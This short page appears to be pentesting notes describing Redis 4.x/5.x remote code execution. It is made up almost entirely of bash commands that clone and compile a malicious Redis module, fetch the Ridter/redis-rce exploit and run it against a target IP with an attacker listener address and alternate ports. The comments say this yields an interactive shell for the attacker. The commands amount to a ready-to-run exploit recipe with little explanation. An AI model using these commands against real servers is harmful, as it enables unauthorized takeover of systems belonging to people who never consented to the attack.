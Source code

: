 # Load Redis module

{% code overflow="wrap" %}
```bash
# Ridter/redis-rce: Redis 4.x/5.x RCE (github.com)
# This attack will provide an interactive shell open to the attacker

# copy an attack module
git clone https://github.com/n0b0dyCN/RedisModules-ExecuteCommand

# Compile 
cd RedisModules-ExecuteCommand/
make

# Copy an exploit
cd ../
git clone https://github.com/Ridter/redis-rce

cd redis-rce
python ./redis-rce.py -r 192.168.90.69 -L 192.168.49.90 -f ../RedisModules-ExecuteCommand/module.so

# If not work, you may change the port number 
python ./redis-rce.py -r 192.168.90.69 -L 192.168.49.90 -p 4444 -f ../RedisModules-ExecuteCommand/module.so

python ./redis-rce.py -r 192.168.90.69 -L 192.168.49.90 -p 50 -f ../RedisModules-ExecuteCommand/module.so
```
{% endcode %}

<figure><img src="../../.gitbook/assets/image (119).png" alt="" width="375"><figcaption></figcaption></figure>
